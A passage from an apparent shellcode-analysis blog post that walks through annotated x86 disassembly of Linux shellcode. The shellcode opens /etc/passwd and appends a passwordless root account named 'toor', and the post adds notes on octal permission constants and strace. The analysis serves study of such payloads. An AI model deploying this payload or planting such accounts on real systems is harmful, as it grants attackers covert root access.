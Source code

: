                             ; store the pointer to 'toor::0:0:t00r:/root:/bin/bash'
                            ;   into EBX
0000000F  8D5E0C            lea ebx,[esi+0xc]

                            ; save the previous pointer after the following string:
                            ;   'toor::0:0:t00r:/root:/bin/bash\x0a\x00'
00000012  895E2C            mov [esi+0x2c],ebx

                            ; copy ESI into EBX
                            ;   it's pointing to the string "/etc/passwd"
00000015  8D1E              lea ebx,[esi]

                            ; 2nd argument of open():
                            ;   flags applied when opening the file:
                            ;     - O_APPEND
                            ;     - O_CREAT
                            ;     - O_RDWR
00000017  66B94204          mov cx,0x442

                            ; 3rd argument of open():
                            ;   mode (mode bits applied when a new file is created):
                            ;     - S_IRUSR
                            ;     - S_IWUSR
                            ;     - S_IRGRP
                            ;     - S_IROTH
0000001B  66BAA401          mov dx,0x1a4
</code></pre><p>I've learning something new while analyzing this shellcode: that permissions bits in the Linux kernel's source code are represented with the <a href="https://en.wikipedia.org/wiki/Octal">octal numeral system</a>.</p><p>Let's look at an example. If you were to check the values for a constant like <code>O_CREAT</code> in the file <code>/include/uapi/asm-generic/fcntl.h</code>, you would find something like this:</p><pre><code class="language-cpp">#define O_ACCMODE       00000003
#define O_RDONLY        00000000
#define O_WRONLY        00000001
#define O_RDWR          00000002

#ifndef O_CREAT
#define O_CREAT         00000100        /* not fcntl */
</code></pre><p>Initially I though the number was simply a decimal one. If not, maybe a hexadecimal number. Well, turns out that it's actually an octal one.</p><p>So you need to convert the number from octal to hex (or decimal when writing your shellcode).</p><p>Another piece of advice. When using <code>strace</code>, you can pass the arguments <code>-e raw=open</code> to view the original, raw values, instead of the constants names.</p><p>Back to the shellcode: after the instructions above, the <code>open</code> syscall is called.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">                            ; invoke syscall open()
0000001F  B005              mov al,0x5
00000021  CD80              int 0x80
</code></pre><figcaption>Use the <code>open()</code> syscall to open the file <code>/etc/passwd</code>, with flags</figcaption></figure><p>Now that the file is opened, it's time to write the new entry:</p><pre><code class="language-nasm">                            ; 1st argument of write():
                            ;   file descriptor of the file want to write
00000023  89C3              mov ebx,eax
00000025  31D2              xor edx,edx

                            ; 2nd argument of write():
                            ;   pointer to the buffer containing the bytes to write
00000027  8B4E2C            mov ecx,[esi+0x2c]
